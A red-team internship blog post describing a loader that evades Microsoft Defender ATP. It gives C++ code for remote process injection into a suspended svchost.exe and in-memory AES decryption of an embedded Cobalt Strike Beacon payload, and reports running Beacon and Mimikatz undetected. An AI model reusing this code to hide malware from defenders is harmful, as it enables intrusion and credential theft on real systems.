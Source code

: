 ```yaml
---
layout: article
title:  Week 12
tags: internship kernel-drivers
date:   2021-12-25 08:00:00 +0100
show_edit_on_github: false
show_subscribe: false
license: false
key: 2021-12-25-week-12
categories: active
---
```


... and across the finish line.
<!--more-->

### 1. Final round

This blogpost concludes my internship with NVISO and my journey developing a kernel driver to tamper with EDR/AV. In this final week I tried my best to deploy the driver against Microsoft Defender ATP and execute a Cobalt Strike Beacon undetected. I had hoped to have earlier access and thus more time to conduct testing against a proper EDR.

As expected, Defender ATP is a big step up from the regular consumer grade Anti-Virus products I've tested against thus far and the loader I've been using during this series doesn't cut it anymore. Right around the time I started my tests I came across a [tweet from @an0n_r0](https://twitter.com/an0n_r0/status/1475137947729113092) discussing a semi-successful Defender bypass, so I used this as base for my new stage 0 loader.

The loader is based on the simple remote code injection pattern using the `VirtualAllocEx`, `WriteProcessMemory`, `VirtualProtectEx` and `CreateRemoteThread` WIN32 APIs.

```c++
void* exec = fpVirtualAllocEx(hProcess, NULL, blenu, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

fpWriteProcessMemory(hProcess, exec, bufarr, blenu, NULL);

DWORD oldProtect;
fpVirtualProtectEx(hProcess, exec, blenu, PAGE_EXECUTE_READ, &oldProtect);

fpCreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)exec, exec, 0, NULL);
```

I also incorporated dynamic function imports using hashed function names and CIG to protect the spawned suspended process against injection of non-Microsoft-signed binaries.

```c++
HANDLE SpawnProc() {
    STARTUPINFOEXA si = { 0 };
    PROCESS_INFORMATION pi = { 0 };
    SIZE_T attributeSize;

    InitializeProcThreadAttributeList(NULL, 1, 0, &attributeSize);
    si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, attributeSize);
    InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &attributeSize);

    DWORD64 policy = PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON;
    UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_MITIGATION_POLICY, &policy, sizeof(DWORD64), NULL, NULL);

    si.StartupInfo.cb = sizeof(si);
    si.StartupInfo.dwFlags = EXTENDED_STARTUPINFO_PRESENT;

    if (!CreateProcessA(NULL, (LPSTR)"C:\\Windows\\System32\\svchost.exe", NULL, NULL, TRUE, CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, &si.StartupInfo, &pi)) {
        std::cout << "Could not spawn process" << std::endl;
        DeleteProcThreadAttributeList(si.lpAttributeList);
        return INVALID_HANDLE_VALUE;
    }

    DeleteProcThreadAttributeList(si.lpAttributeList);
    return pi.hProcess;
}
```

The Beacon payload is stored as a AES256 encrypted PE resource and decrypted in memory before being injected into the remote process.

```c++
HRSRC rc = FindResource(NULL, MAKEINTRESOURCE(IDR_PAYLOAD_BIN1), L"PAYLOAD_BIN");
DWORD rcSize = fpSizeofResource(NULL, rc);
HGLOBAL rcData = fpLoadResource(NULL, rc);

char* key = (char*)"16-byte-key-here";
const uint8_t iv[] = { 0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08, 0x09, 0x0a, 0x0b, 0x0c, 0x0d, 0x0e, 0x0f };

int blenu = rcSize;
int klen = strlen(key);

int klenu = klen;
if (klen % 16)
    klenu += 16 - (klen % 16);

uint8_t* keyarr = new uint8_t[klenu];
ZeroMemory(keyarr, klenu);
memcpy(keyarr, key, klen);

uint8_t* bufarr = new uint8_t[blenu];
ZeroMemory(bufarr, blenu);
memcpy(bufarr, rcData, blenu);

pkcs7_padding_pad_buffer(keyarr, klen, klenu, 16);

AES_ctx ctx;
AES_init_ctx_iv(&ctx, keyarr, iv);
AES_CBC_decrypt_buffer(&ctx, bufarr, blenu);
```

Last but not least I incorporated the **Sleep_Mask** directive in my Cobalt Strike Malleable C2 profile, this tells Cobalt Strike to obfuscate Beacon in memory before it goes to sleep by means of an XOR encryption routine.

The loader works so well I was able to execute Beacon and run Mimikatz undetected without the use of my kernel driver. On that bombshell, it's time to end this internship and I think I can conclude that while having a kernel driver to tamper with EDR/AV is certainly useful, a majority of the detection mechanisms are still present in user land or are driven by signatures and rules for static detection.

![](/assets/images/defender-atp-bypass.png)

![](/assets/images/defender-atp-mimikatz.png)